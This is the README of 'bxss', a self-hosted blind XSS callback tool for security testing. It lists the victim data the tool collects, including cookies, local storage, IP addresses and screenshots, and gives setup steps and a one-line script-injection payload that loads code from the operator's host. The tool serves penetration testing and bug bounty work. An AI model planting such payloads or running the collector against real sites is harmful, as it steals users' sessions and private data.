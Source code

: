 <h1 align="center">bxss</h1>

<h4 align="center">My alternative to XSS Hunter for blind XSS.</h4>

<p align="center">
    <img src="https://img.shields.io/badge/php-%3E=5.5-blue" alt="php badge">
    <img src="https://img.shields.io/badge/license-MIT-green" alt="MIT license badge">
    <a href="https://twitter.com/intent/tweet?text=https%3a%2f%2fgithub.com%2fgwen001%2fbxss%2f" target="_blank"><img src="https://img.shields.io/twitter/url?style=social&url=https%3A%2F%2Fgithub.com%2Fgwen001%2Fbxss" alt="twitter badge"></a>
</p>

<!-- <p align="center">
    <img src="https://img.shields.io/github/stars/gwen001/bxss?style=social" alt="github stars badge">
    <img src="https://img.shields.io/github/watchers/gwen001/bxss?style=social" alt="github watchers badge">
    <img src="https://img.shields.io/github/forks/gwen001/bxss?style=social" alt="github forks badge">
</p> -->

---

## Features

- reports stored in `sqlite` database
- call logged in log file
- report send on Slack channel (beta)
- data collected: 
    - vulnerable URL
    - referer URL
    - victim IP
    - victim User-Agent
    - victim cookies
    - victim locale storage
    - HTML of the vulnerable page
    - screenshot of the vulnerable page

Todo:  
    - report send by mail

## Install

```
git clone https://github.com/gwen001/bxss
```

The web user should have write access on the directory `images`.

## Configure domain

Using Apache, you can easily configure a vhost like this:

```
<IfModule mod_ssl.c>
<VirtualHost *:443>
	ServerName x.example.com
	ServerAdmin webmaster@localhost
	DocumentRoot /var/www/html/bxss/
	SSLCertificateFile /etc/letsencrypt/live/x.example.com/fullchain.pem
	SSLCertificateKeyFile /etc/letsencrypt/live/x.example.com/privkey.pem
</VirtualHost>
</IfModule>

<VirtualHost *:80>
	ServerName x.example.com
	ServerAdmin webmaster@localhost
	DocumentRoot /var/www/html/bxss/
</VirtualHost>
```

## Injection

As soon as the script is available online, you can use your favorite XSS payload:
```
<script src=http://x.example.com></script>
```

---

<img src="https://raw.githubusercontent.com/gwen001/bxss/main/preview.png" />

---

Feel free to [open an issue](/../../issues/) if you have any problem with the script.  

